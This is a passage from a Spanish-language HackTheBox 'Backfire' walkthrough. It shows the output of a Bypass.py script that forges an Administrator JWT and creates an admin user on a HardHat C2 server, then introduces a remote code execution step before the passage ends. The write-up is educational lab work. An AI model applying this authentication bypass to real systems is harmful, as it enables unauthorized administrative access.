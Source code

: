 Al ejecutar el `Bypass.py`, verificamos que en un principio hemos logrado crear un usuario llamado `gzzcoo`.

```bash
❯ python Bypass.py
/home/kali/Desktop/HackTheBox/Linux/Backfire/content/Bypass.py:12: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
Generated JWT:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJIYXJkSGF0X0FkbWluIiwianRpIjoiM2RlYjdhZTMtNDcwMC00ZGQ4LTkzMjUtYjI2ZmQ1Mjk0ZjQ2IiwiaHR0cDovL3NjaGVtYXMueG1sc29hcC5vcmcvd3MvMjAwNS8wNS9pZGVudGl0eS9jbGFpbXMvbmFtZWlkZW50aWZpZXIiOiIxIiwiaXNzIjoiaGFyZGhhdGMyLmNvbSIsImF1ZCI6ImhhcmRoYXRjMi5jb20iLCJpYXQiOjE3Mzc0NDc4MjcsImV4cCI6MTczOTg2NzAyNywiaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93cy8yMDA4LzA2L2lkZW50aXR5L2NsYWltcy9yb2xlIjoiQWRtaW5pc3RyYXRvciJ9.hh6igOGH2iTKBfDc8XnwxF41Tq8nGB7VGMnif8xmADQ
/usr/local/lib/python3.12/dist-packages/urllib3/connectionpool.py:1099: InsecureRequestWarning: Unverified HTTPS request is being made to host '127.0.0.1'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
User gzzcoo created
```

Probaremos de autenticarnos en el panel de `HardHat C2` y comprobamos que hemos logrado obtener el acceso correspondiente.

<figure><img src="../../.gitbook/assets/imagen (207).png" alt=""><figcaption></figcaption></figure>

### HardHatC2 Remote Code Execution (RCE)

En el mismo blog en el cual nos mencionaban diferentes vulnerabilidades, se nos informaba que una vez obtenido un usuario nuevo creado con permisos de Admin, podríamos llegar a explotar un Remote Code Execution (RCE).
